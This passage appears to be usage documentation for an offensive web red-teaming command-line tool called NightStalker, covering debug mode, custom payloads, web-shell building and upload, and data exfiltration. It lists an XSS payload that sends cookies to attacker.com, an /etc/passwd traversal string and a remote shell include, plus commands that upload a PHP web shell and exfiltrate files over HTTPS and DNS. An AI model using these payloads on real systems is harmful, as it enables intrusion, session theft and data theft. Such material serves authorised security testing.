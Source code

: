 ### Debug Mode
```bash
# Enable debug logging
export NIGHTSTALKER_DEBUG=1
python -m nightstalker.cli webred scan --url https://target.com
```

## Advanced Configuration

### Custom Payloads
```python
# Custom exploitation payloads
custom_payloads = {
    'xss': '<script>fetch("http://attacker.com/steal?cookie="+document.cookie)</script>',
    'lfi': '../../../etc/passwd',
    'rfi': 'http://attacker.com/shell.txt'
}
```

### Custom Scan Modules
```python
# Extend scan capabilities
def custom_scan_module(url):
    # Custom scanning logic
    pass
```

### Custom Exploitation Techniques
```python
# Extend exploitation capabilities
def custom_exploit(url, payload):
    # Custom exploitation logic
    pass
```

## Integration with Other Modules

### Payload Integration
```bash
# Use payload builder with web red teaming
python -m nightstalker.cli payload build --type web_shell --format php
python -m nightstalker.cli webred exploit --url https://target.com --exploit upload --payload web_shell.php
```

### Exfiltration Integration
```bash
# Use exfiltration module for data extraction
python -m nightstalker.cli exfil --data sensitive_data.txt --channels https dns
```
